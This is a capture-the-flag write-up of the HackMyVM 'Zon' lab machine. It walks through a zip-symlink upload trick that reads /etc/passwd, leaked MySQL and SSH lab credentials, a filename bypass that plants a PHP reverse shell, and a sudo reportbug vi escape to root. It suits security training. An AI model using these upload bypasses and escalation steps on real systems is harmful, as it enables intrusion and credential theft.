 ```yaml
---
title: HackMyVM - Zon
date: 2024-02-01
tags: ZIP ZIP-Upload File-Upload
author: raylex
---
```

## Enumeration
### 80 - Apache HTTP
Directory fuzzing reveals some interesting files and directoriey
```shell
┌──(r4yl3x㉿k4l1)-[~/CTF/HackMyVM/Zon]
└─$ cat fuzz/fuzz
/js                   (Status: 301) [Size: 309] [--> http://192.168.58.38/js/]
/index.php            (Status: 200) [Size: 29170]
/css                  (Status: 301) [Size: 310] [--> http://192.168.58.38/css/]
/images               (Status: 301) [Size: 313] [--> http://192.168.58.38/images/]
/contact.php          (Status: 200) [Size: 11753]
/report.php           (Status: 200) [Size: 13]
/blog.php             (Status: 200) [Size: 12490]
/uploads              (Status: 301) [Size: 314] [--> http://192.168.58.38/uploads/]
/upload.php           (Status: 500) [Size: 0]
/about.php            (Status: 200) [Size: 10538]
/service.php          (Status: 200) [Size: 12239]
/.                    (Status: 200) [Size: 29170]
/fonts                (Status: 301) [Size: 312] [--> http://192.168.58.38/fonts/]
/icon                 (Status: 301) [Size: 311] [--> http://192.168.58.38/icon/]
/testimonial.php      (Status: 200) [Size: 17014]
/choose.php           (Status: 200) [Size: 1908]
```
Zip files containing `.jpeg` images are accepted by the `choose.php` page, which also extracts the image and stores it in the `/uploads` directory.  
I'll use the symlink method to read files from the target
- Symlink `/etc/passwd` to `test.jpeg`
```
ln -s /etc/passwd ./test.jpeg
```
- Create malicious zip
```
zip -r file.zip test.jpeg --symlink
```
- Upload malicious zip
- Download the test.jpeg from the target
```
wget http://192.168.58.38/uploads/test.jpeg
```
- Extract the strings in the file
```shell
┌──(r4yl3x㉿k4l1)-[~/CTF/HackMyVM/Zon]
└─$ strings test.jpeg
root:x:0:0:root:/root:/usr/bin/zsh
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin
systemd-timesync:x:997:997:systemd Time Synchronization:/:/usr/sbin/nologin
messagebus:x:100:107::/nonexistent:/usr/sbin/nologin
avahi-autoipd:x:101:109:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/usr/sbin/nologin
sshd:x:102:65534::/run/sshd:/usr/sbin/nologin
dnsmasq:x:103:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
polkitd:x:996:996:polkit:/nonexistent:/usr/sbin/nologin
mysql:x:104:112:MySQL Server,,,:/nonexistent:/bin/false
Debian-snmp:x:105:113::/var/lib/snmp:/bin/false
freddie:x:1000:1000:,,,:/home/freddie:/bin/zsh
```
### File read
Now that i can read local files, I'll modify a script [[Zon#^read]] 0xdf made in [HTB: Zipping | 0xdf hacks stuff](https://0xdf.gitlab.io/2024/01/13/htb-zipping.html) so i don't have to symlink,zip and upload every time i want to view a file.  
The webapp's root directory is `/var/www/html`
- report.php
```php
<?php
$data = json_decode(file_get_contents('php://input'), true);
// Temporary random value for testing purposes only
$randomValue = rand(999999, getrandmax());
if ($data['shortSeq'] != $randomValue) {
    die("Access denied");
echo "Authorized access";
shell_exec('./hashDB.sh');
```
- hashDB.sh ^mysql
```shell
#!/bin/bash
# script that checks the database's integrity every minute
dump=/dev/shm/dump.sql
log=/var/log/db_integrity_check.log
true > "${log}"
/usr/bin/mysqldump -u admin -pudgrJbFc6Av#U3 admin credentials > "${dump}"
/usr/bin/sed -i '$d' "${dump}"
hash="29d8e6b76aab0254f7fe439a6a5d2fba64270dde087e6dfab57fa57f6749858a"
check_hash=$(sha256sum "${dump}" | awk '{print $1}')
if [[ "${hash}" != "${check_hash}" ]] ; then
  /usr/bin/wall "Alert ! Database hacked !"
  /usr/bin/du -sh /var/lib/mysql >> "${log}"
  /usr/bin/vmstat 1 3 >> "${log}"
else
  /usr/bin/sync && /usr/bin/echo 3 > /proc/sys/vm/drop_caches
  /usr/bin/echo "$(date) : Integrity check completed for ${dump}" >> "${log}"
```
> MySQL Credential!  
> User: admin  
> Password: udgrJbFc6Av#U3
- upload.php
![upload.php](/docs/assets/images/Pasted%20image%2020240126180557.png){: w="700" h="400" }
## Foothold
### Shell as www-data
Looking at the code, i see that it can be tricked by zipping a file like `shell.jpeg .php`, the `awk '{print $4}'` command will print the 4th line, thereby omitting the ` .php` at the end.
![[Pasted image 20240127111811.png]]
This will result in a `return_var=0`, which is just what's needed for the actual unzipping part of the code to be processed.
![[Pasted image 20240127112018.png]]
Now i'll upload my malicious zip file which should pass all checks and drop `shell.jpeg .php` in the `uploads` directory which results in RCE
![[Pasted image 20240127112610.png]]
I'll upload pentest-monkey's php reverse shell and get shell as `www-data`  
![Pasted image 20240127113807.png](/docs/assets/images/Pasted%20image%2020240127113807.png)
- Stabilize the shell
### www-data -> freddie
Now that i have a stable shell, i''ll attempt to login to the [[Zon#^mysql]] db i saw earlier  
![db](/docs/assets/images/Pasted image 20240127114424.png)  
I'll login as `fredie` via ssh and retrieve #user-flag 
```shell
╭─freddie@zon ~
╰─$ cat user.txt
a0b4603c7fde7e4113d2ee5fbee5a038
```

> SSH Credential  
> Username: freddie  
> Password: LDVK@dYiEa2I1lnjrEeoMif
## Privilege Escalation 
Sudo commands run really slow cause hostname `zon` isn't in the `/etc/hosts` file
Listing sudoers reveals user `freddie` may run `/usr/bin/reportbug` as `root`
```shell
sudo: unable to resolve host zon: Name or service not known
Matching Defaults entries for freddie on zon:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    use_pty

User freddie may run the following commands on zon:
    (ALL : ALL) NOPASSWD: /usr/bin/reportbug
```
The program is a debian bug report tool written in python  
Since it's a bug report tool running as root, i'm just going to guess is uses vim editor for bug writing submissions. Searching `/usr/bin/reportbug editor` confirms this
![[Pasted image 20240127123231.png]]
Now i just have to find a way to the editor
### freddie -> root
After briefly going through the documentation, i'll attempt to submit a report
```
sudo /usr/bin/reportbug
```
...and go on with the configuration
- select any operating mode - normal
- select internet option - n
- enter name - root
- enter an email - root@zon.local
- no transport agent
- no proxy
- `y` to continue as root
- enter `other` or any program name - `apt`
- enter a subject for the report
- select any severity
- it should now request for the editor, select Vi (if not specified using `-e`)
- enter the command `:!/bin/bash`
and a shell will be spawned as the `root` user
![[Pasted image 20240127170554.png]]
Retrieve the #root-flag 
```shell
root@zon:~# cat /root/root.txt
18a72aa09ce61fb487fd6745c8eba769
```
